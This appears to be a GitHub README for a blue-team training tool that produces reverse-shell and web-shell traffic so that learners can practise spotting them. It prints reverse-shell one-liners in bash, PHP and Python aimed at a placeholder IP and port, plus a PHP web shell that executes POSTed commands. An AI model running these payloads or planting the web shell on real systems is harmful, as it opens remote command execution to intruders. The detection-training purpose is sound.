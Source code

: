# Netcat-Noise-Generator
This is used to point a reverse shell to, so it can create traffic noise as well as noisy logs. This is used to help teach people how to find reverse shells.



# Netcat Noise Generator - netcat-generator.go
This Go program will bind to a port, and once it detects an incomming connection on the port, it will send out random commands, that may alert a blue team member to the reverse shell. To connect to the listener, use the following command:

```bash
/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

Or if you want to use php:

```bash
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Or Python:

```bash
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<ip>",<port>));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

# PHP Noise Generator - php-generator.php
This Go program will run, and send a goroutine to send out a HTTP post request to a web server every 5 seconds. The way this works is you implant a malicious php file onto a webserver running php and it will respond to any incomming POST requests and return the executed command output. To add a new endpoint, just run php-generator.go <url>.

An example malicious php file is below:

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $command = $_POST['command'];
    $output = shell_exec($command);
    echo $output;
}
?>
```